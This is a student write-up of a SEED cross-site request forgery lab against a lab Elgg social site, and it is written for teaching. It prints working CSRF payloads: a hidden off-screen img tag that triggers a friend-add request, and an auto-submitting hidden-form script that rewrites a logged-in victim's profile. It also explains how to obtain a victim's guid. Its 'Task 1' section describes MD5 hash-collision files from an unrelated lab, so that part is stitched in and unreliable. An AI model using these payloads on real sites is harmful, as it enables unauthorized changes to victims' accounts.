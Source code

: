 # CS 4173 Lab 4
#### Cross-Site Request Forgery Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Observing HTTP Request

In this task, we use the provided tool to generate two binary files which result in the same hash when using the MD5 hashing algorithm. By observing the output, we can see that the prefix is appended to the output binary as a 64 length block. There are 3 prefix files included: `63longprefix.txt`, `64longprefix.txt`, and `65longprefix.txt`. These were used to test the outputs when the prefix is a multiple of 64, less than a multiple of 64, or greater than a multiple of 64. 

## Task 2: CSRF Attack Using GET Request

In this task we will demonstrate a GET request attack to show how a GET request attack can be launched if the victim is directed to a malicious site. We can create a webpage in the directory for the csrflabattacker.com domain which has a hidden image with the `src` set to the URL we wish to attack and the GET request will be triggered automatically. The image tag used is the following: 

```html
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42" alt="" style="position:absolute; left:-999999999999999999999999999999999999999px" width="1" height="1">
```

## Task 3: CSRF Attack Using POST Request

In this task we will demonstrate how a POST request can also be used to perform attacks against servers which are not protected against it. Using the same directory, we can modify the page to contain a script that will run and auto invoke itself upon loading the page. The script will create a form with a field to set the `description` field and the `accesslevel` for that field along with the `guid` of the target. The elgg token security has been disabled so the attack does not require those. When Alice reaches this page, her logged in session cookie is still in the browser and will allow the request to be sent and modifying her profile. 

![Screenshot of successful post attack](post-attack.png "Alice's profile after redirecting back from the attacker's site")

The script on the page consists of the following:

```js
function forge_post() {
    var fields;
    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value ='2'> ";
    fields += "<input type='hidden' name='description' value='<p>Boby is my Hero</p>'>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";

    fields += "<input type='hidden' name='guid' value='42'>";
    // Create a <form> element.
    var p = document.createElement("form");
    // Construct the form
    p.action = "http://www.csrflabelgg.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    // Append the form to the current page.
    document.body.appendChild(p);
    // Submit the form
    p.submit();
}
// Invoke forge_post() after the page is loaded.
window.onload = function () { forge_post(); }
```

### Question 1

Boby cannot retrieve Alice's `guid` by logging into her account, but fortunately he does not need to. By visiting Alice's page as a visitor, he can inspect the "Add friend" button which contains her `guid` in the GET request URL.

### Question 2

It is possible to retrieve the `guid` of anyone who visits the page, assuming they are logged in. One only needs to know their profile username in order to view their page and retrieve the `guid` from the "Add friend" button. This can be achieved by sending a malicious GET request to `http://www.csrflabelgg/profile` which will redirect to the logged in user's page which can be found in the response headers. The attacker can then pull that URL and retrieve the `guid`.

## Task 4: Implementing a countermeasure for `Elgg`


